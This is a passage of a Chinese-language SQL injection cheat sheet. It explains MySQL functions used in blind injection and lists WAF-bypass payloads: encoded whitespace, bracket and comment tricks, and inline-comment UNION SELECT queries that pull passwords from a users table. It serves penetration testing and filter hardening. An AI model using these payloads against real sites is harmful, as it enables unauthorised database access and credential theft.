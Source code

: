 ### 盲注常用函数

* ascii() 返回值为字符串str 的最左字符的数值。假如str为空字符串，则返回值为 0 。假如str 为NULL，则返回值为 NULL。
* BIT_LENGTH(str)返回值为二进制的字符串str 长度。version(), pi(), pow(), 
* char(),将每个参数N理解为一个整数，其返回值为一个包含这些整数的代码值所给出的字符的字符串。NULL值被省略。
* substring(),函数 substring(str,pos,len) 取pos起的len长：不使用逗号 substring(("string" from 1))

```
mysql> select substring("abc",1,1);
+----------------------+
| substring("abc",1,1) |
+----------------------+
| a                    |
+----------------------+
id=1 and substring(user(),1,1) = "r";
```

* concat(str1,str2,...),参数为字符串，返回参数连接产生的字符串，如有任何一个参数为NULL ，则返回值为 NULL。

* group_concat(),将group by 产生的分组内的值连接起来并返回字符串。
* left(str,len),返回str左面长度为len的字符串。 
* rand(),产生一个0到1之间的随机数。order by rand() 可以随机排序。

### 相关绕过

基础字符：

```
true=1
floor(pi())=3
ceil(pi())=4
floor(version())=5
ceil(version())=6
```

空格：%20, %09, %0a, %0b, %0c, %0d, %a0
还有一些可以利用括号或者注释  and，or：||，&&  union select：  
利用括号:

```
'and(true)like(false)union(select(pass)from(users))，  
```

方括号

```
union [all|distinct] select pass from users#，  
union%a0select pass from users，  
```

注释，常见注释符有：//，--，/**/，--+，-- -，可以使用注释来规避空格
内联注释：/!*XXXX*/；只存在mysql中。

```
id=-15 %55nION/**/%53ElecT 1,2,3,4　
id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
```
